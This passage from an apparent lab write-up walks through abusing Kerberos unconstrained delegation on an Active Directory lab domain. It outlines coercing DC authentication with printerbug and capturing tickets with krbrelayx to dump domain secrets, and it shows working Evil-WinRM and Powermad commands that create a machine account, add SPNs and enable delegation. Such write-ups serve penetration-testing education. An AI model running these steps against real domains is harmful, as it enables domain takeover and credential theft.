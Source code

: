 * Create a computer account and add its DNS entry to `EXAMPLE.delegate.vl` to point to our attacker machine.
* Use `krbrelayx` to listen for incoming Kerberos keys and cache them accordingly.
* Coerce an authentication attempt from the DC and capture the authentication request with `krbrelayx`. (We can use `printerbug` for this)
* Use the captured DC service ticket to dump the domain secrets.

I found reference on how to do this locally from our Kali machine [here](https://www.thehacker.recipes/ad/movement/kerberos/delegations/unconstrained). While I had given it a try to use `addcomputer` in Impacket's library to do this, the issue is that it does not add the sufficient SPNs that you need on the machine account to perform unconstrained delegation. The only SPN that you have the ability to add with `addcomputer` is `HTTP/(account).delegate.vl`.

The list of the required SPNs is below. I used [Powermad](https://github.com/Kevin-Robertson/Powermad) to get the specific attributes of a machine account I had configured.

```
HTTP/dazzad.delegate.vl
RestrictedKrbHost/dazzad
HOST/dazzad
RestrictedKrbHost/dazzad.delegate.vl
HOST/dazzad.delegate.vl
```

Luckily enough, when you add a machine account via Powermad, it should add these SPNs for you. There is also an additional SPN identifier that we'll need to have to ensure that the delegation rights are set correctly on the account.

Let's first start by creating the computer account through WinRM.

```
*Evil-WinRM* PS C:\Users\N.Thompson\Documents> New-MachineAccount -MachineAccount dazzad -Password $(ConvertTo-SecureString 'DazPassword123@' -AsPlainText -Force)
```

Next, we'll add the SPNs to the machine account so that it can properly exploit the delegation.

```
*Evil-WinRM* PS C:\Users\N.Thompson\Documents> Set-MachineAccountAttribute -MachineAccount dazzad -Attribute ServicePrincipalName -Value HTTP/dazzad.delegate.vl -Append
[+] Machine account dazzad attribute ServicePrincipalName appended

*Evil-WinRM* PS C:\Users\N.Thompson\Documents> Set-MachineAccountAttribute -MachineAccount dazzad -Attribute userAccountControl -Value 528384
[+] Machine account daz attribute userAccountControl updated
```

We can verify our changes to the machine account by running `Get-MachineAccountAttribute` against the machine account we created.

```
*Evil-WinRM* PS C:\Users\N.Thompson\Documents> Get-MachineAccountAttribute -MachineAccount dazzad -Attribute ServicePrincipalName -Verbose
Verbose: [+] Domain Controller = DC1.delegate.vl
Verbose: [+] Domain = delegate.vl
Verbose: [+] Distinguished Name = CN=dazzad,CN=Computers,DC=delegate,DC=vl
HTTP/dazzad.delegate.vl
RestrictedKrbHost/dazzad
HOST/dazzad
RestrictedKrbHost/dazzad.delegate.vl
HOST/dazzad.delegate.vl
```
